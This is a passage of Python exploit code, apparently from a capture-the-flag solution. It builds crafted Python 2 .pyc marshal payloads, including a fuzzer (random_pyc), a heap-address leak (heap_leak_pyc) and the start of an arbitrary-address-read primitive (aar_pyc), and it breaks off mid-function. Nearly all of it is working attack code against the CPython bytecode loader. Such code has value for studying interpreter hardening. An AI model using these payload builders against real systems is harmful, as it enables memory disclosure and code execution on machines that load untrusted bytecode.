 ```python
    return b"t" + p32(len(data)) + data

def float_object(data):
    return b"f" + p8(len(data)) + data

def ref_object(ref):
    pay = b"r"
    pay += p32(ref)
    return pay

def random_pyc(seed):
    trim = lambda x: x & 0xF0
    magic = 0x0a0df303
    date = 0
    pay = p32(magic) + p32(date)
    # a code object
    pay += b"c"
    # argsize nlocals stacksize flags
    pay += p32(0) + p32(0) + p32(0) + p32(0)
    # code (LOAD_GLOBAL)
    code = p8(116) + p32(0)
    pay += string_object(code)
    # consts, names, varnames, freevars, cellvars, filename, name
    for x in seed[:7]:
        if x & 1:
            pay += string_object(b"x"*expand(x))
        else:
            pay += float_object(b"y"*trim(x))

    # firstlineno
    if seed[7] & 1:
        pay += p32(0)
        pay += string_object(b"x")

    return pay

def heap_leak_pyc():
    magic = 0x0a0df303
    date = 0
    pay = p32(magic) + p32(date)
    # a code object
    pay += b"c"
    # argsize nlocals stacksize flags
    pay += p32(0) + p32(0) + p32(0) + p32(0)
    # code (LOAD_GLOBAL)
    code = p8(116) + p32(0)
    pay += string_object(code)
    # consts, names, varnames, freevars, cellvars, filename, name
    pay += string_object(b"x") 
    pay += list_object([list_object([string_object(b"z")])])
    pay += string_object(b"x") * 5
    # firstlineno
    pay += p32(0)
    pay += string_object(b"x")
    return pay

def aar_pyc(where, leak):
    magic = 0x0a0df303
    date = 0
    pay = p32(magic) + p32(date)
    # a code object
    pay += b"c"
    # argsize nlocals stacksize flags
```